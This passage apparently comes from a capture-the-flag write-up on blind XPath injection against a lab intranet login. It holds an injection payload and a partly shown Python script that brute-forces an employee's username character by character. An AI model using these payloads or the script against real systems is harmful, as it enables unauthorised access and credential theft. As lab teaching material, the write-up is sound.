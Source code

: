 **Enumerating the content**

```python
1. /Employees/Employee[1]/FirstName/text()                         # 'Arnold'
2. string-length(/Employees/Employee[1]/FirstName/text())          # 6
3. substring(/Employees/Employee[1]/FirstName/text(),1,1) = 'A'    # True
```

Now I think you get the gist. If you still have problem, I suggest you to go to [this link](http://xpather.com/) and get your hands dirty. Once you know how to walk through those elements, it is very much similar to SQL injection.

Writing a crappy code for extracting information.
-------------------------------------------------

Payload used:

```python
'or '1'='1' and substring(/Employees/Employee[3]/Password/text(),1,1) = 'A' and '1'='1
#Breaking the payload
# 1. ' or '1' = '1'                               # always true and returns the whole information
# 2. and substring(name(/*),1,1) = 'ch'           # only true when ch = required character
# 3. and '1' = '1                                 # always true and to make the query valid
```

If the condition is true, we get the response with all those names and emails. But if the condition is false, we don’t get any of those responses.

To extract the information of different elements, you can change the payload according to your needs.

**Code**

```python
#!/usr/bin/python3
import requests
from string import printable
url = "http://172.31.179.1/intranet.php"
proxy = {'http' : 'http://10.10.10.200:3128'}
str1  = printable
j = 1
out = ''
len1 = 0
#Finding length of the String
while True:
    params = { 'Username' : "'or '1'='1' and string-length(/Employees/Employee[3]/Username/text()) = "+str(j)+" and '1'='1",
            'Password' : "'or '1'='1' and string-length(/Employees/Employee[3]/Username/text()) =" +str(j)+" and '1'='1"
           }
    r = requests.post(url,data=params,proxies=proxy)
    #print("testing: "+ str(j),end='\r',flush=True)
    if 'Rita' in r.text:
        len1 = j 
        #print("value found finally: "+ str(j))
        break
    j += 1
#Extracting the  username value
username= ''
for i in range(1,len1+1):
    for ch in str1:
        #print("value testing for character number: "+str(i) + " and Value: " + ch,end = '\r', flush=True)
        params = { 'Username' : "'or '1'='1' and substring(/Employees/Employee[3]/Username/text(),{},1) = '".format(i)+ch +"' and '1'='1",
            'Password' : "'or '1'='1' and substring(/Employees/Employee[3]/Username/text(),{},1) = '".format(i) +ch+"' and '1'='1"
            }
```